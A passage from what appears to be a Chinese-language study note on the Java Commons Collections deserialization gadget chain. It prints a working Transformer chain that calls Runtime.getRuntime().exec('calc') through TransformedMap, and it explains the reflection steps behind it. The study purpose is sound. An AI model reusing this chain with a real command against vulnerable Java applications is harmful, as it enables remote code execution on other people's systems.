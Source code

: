 * **<u>讨论几个问题</u>**：
  
  * 为什么传入Runtime.class而不是Runtime
    
    * 这里是我自己混淆了代码执行过程：method.invoke(input, iArgs)中的input即为我们传入的Runtime.class
  
  * new Class[0]、new Object[0]：
    
    * new Class[0]、new Object[0]同于null，但它们有更好的兼容性，如果函数内遇到for(Object o : args){  
      }这样的操作，args传入new Class[0]、new Object[0]不会抛空
  
  * getMethod 能否精准地获取想要的方法
    
    * 暂略
  
  * 可以优化这个过程吗，为什么要通过getMethod获取getRuntime
    
    * new InvokerTransformer("Method", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] })
      public Object transform(Object input)
      通过传入的 input.class.getMethod("Method",...),  Method.invoke(input,...)执行，所以当input本身为Class类型时就不好处理
      如果要想直接new InvokerTransformer("getRuntime", ..., ...)，则必须有一个Runtime的实例传入

##### 找到某个类调用ChainedTransformer类的transform()方法

* 目前命令执行的代码

```java
Transformer[] transformers = new Transformer[] {
        //Runtime.class.getMethod('getRuntime').invoke()
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        //获取java.lang.class
};
Transformer transformerChain = new ChainedTransformer(transformers);

Map innerMap = new HashMap();
innerMap.put("1", "1");
//构造TransformedMap对象，带入前面构造的transformerChain
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
//返回Entry这个内部类
Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();

onlyElement.setValue("123123");
```

* 从上一节中已经可以发现，只要执行chainedTransformer.transform()方法就可以RCE
* TransformedMap的关键方法

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  return new TransformedMap(map, keyTransformer, valueTransformer);
}
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  super(map);
  this.keyTransformer = keyTransformer;
  this.valueTransformer = valueTransformer;
}
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```
